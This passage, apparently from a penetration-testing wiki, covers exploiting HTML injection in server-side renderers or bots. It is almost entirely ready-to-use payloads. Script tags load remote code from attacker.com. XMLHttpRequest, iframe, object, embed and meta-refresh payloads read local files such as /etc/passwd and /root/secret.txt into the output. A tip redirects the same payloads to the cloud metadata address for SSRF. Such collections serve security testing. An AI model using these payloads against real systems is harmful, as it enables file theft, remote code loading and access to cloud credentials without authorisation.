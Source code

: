 The best conformable way to exploit this vulnerability is to abuse the vulnerability to make the bot load a script you control locally. Then, you will be able to change the payload locally and make the bot load it with the same code every time.

```html
<script src="http://attacker.com/myscripts.js"></script>
<img src="xasdasdasd" onerror="document.write('<script src="https://attacker.com/test.js"></script>')"/>
```

### Read local file / SSRF

> [!WARNING]
> Change `file:///etc/passwd` for `http://169.254.169.254/latest/user-data` for example to **try to access an external web page (SSRF)**.
>
> If SSRF is allowed, but you **cannot reach** an interesting domain or IP, [check this page for potential bypasses](../ssrf-server-side-request-forgery/url-format-bypass.md).

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```html
<script>
    xhzeem = new XMLHttpRequest();
    xhzeem.onload = function(){document.write(this.responseText);}
    xhzeem.onerror = function(){document.write('failed!')}
    xhzeem.open("GET","file:///etc/passwd");
    xhzeem.send();
</script>
```

```html
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

### Bot delay
